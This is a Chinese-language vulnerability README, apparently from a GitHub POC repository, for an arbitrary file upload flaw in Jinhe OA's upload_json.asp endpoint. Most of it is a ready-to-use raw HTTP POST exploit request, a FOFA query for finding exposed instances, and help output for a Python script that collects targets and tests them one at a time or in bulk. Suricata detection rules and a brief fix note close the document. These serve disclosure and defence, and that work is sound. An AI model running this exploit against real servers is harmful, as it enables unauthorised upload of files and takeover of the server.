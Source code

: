 ### 产品简介  
金和网络是专业信息化服务商，为城市监管部门提供了互联网+监管解决方案，为企事业单位提供组织协同OA系统升开发平台，电子政务一体化平台智慧电商平合等服务  

### 漏洞概述  
金和OA upload_json.asp存在任意文件上传漏洞，攻击者可通过此漏洞获取服务器权限。  

### 指纹识别  
fofa: app="金和网络-金和OA"  

![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_Arbitrary_File_Upload_Vulnerability/1.png)

### 漏洞利用  
```
poc:
POST /c6/KindEditor1/asp/upload_json.asp?dir=file HTTP/1.1
Host: your_ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Content-Length: 338
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------153857212076213662067051609723
 
-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="localUrl"
 
 
-----------------------------153857212076213662067051609723
Content-Disposition: form-data; name="imgFile"; filename="123.txt"
Content-Type: image/png
 
hello success
-----------------------------153857212076213662067051609723--
```

![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_Arbitrary_File_Upload_Vulnerability/3.png)  
![Image text](https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_Arbitrary_File_Upload_Vulnerability/2.png)  

### 测试和利用脚本  
```
python3 Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py -h                      
usage: Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py [-h] [-t] [-r FILE] [-u URL]

### Jinhe OA upload_ Json.asp has an arbitrary file upload vulnerability. ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python Jinhe_OA_Arbitrary_File_Upload_Vulnerability.py -u http://xxx.xxx.xxx
```

### 修复建议  
1.联系相关软件厂商更新至最新安全版本。  

### Suricata rules  
```
alert http any any -> any any (msg:"Jinhe OA upload_ Json.asp has an arbitrary file upload vulnerability"; flow:established,to_server; flowbits:set,Jinhe_OA_Arbitrary_File_Upload_Vulnerability; content:"post";http_method;nocase; content:"/c6/KindEditor1/asp/upload_json.asp?dir=file";http_uri;fast_pattern;nocase; content:"Content-Type: multipart/form-data";nocase;http_header; content:"Content-Disposition: form-data\; name=";nocase;http_client_body; content:"filename=";nocase;http_client_body; pcre:"/filename=[^\.]+\.(txt|jsp|jspx|exe|asp|aspx)/Pi"; reference:url,https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_Arbitrary_File_Upload_Vulnerability; classtype:web-attck; metadata:created_at 2024-01-08,updated_at 2024-01-08,creater:YUUKI4O4; sid:5; rev:1;)
alert http any any -> any any (msg:"Jinhe OA upload_ Json.asp has an arbitrary file upload vulnerability, successful"; flow:established,from_server; flowbits:isset,Jinhe_OA_Arbitrary_File_Upload_Vulnerability; content:"200";http_stat_code; content:"{";nocase;http_server_body;startswith; content:"error";nocase;http_server_body;distance:0; content:"url";nocase;http_server_body; reference:url,https://github.com/YUUKI4O4/POC/blob/main/Jinhe_OA_Arbitrary_File_Upload_Vulnerability; classtype:web-attck; metadata:created_at 2024-01-08,updated_at 2024-01-08,creater:YUUKI4O4; sid:6; rev:1;)
```
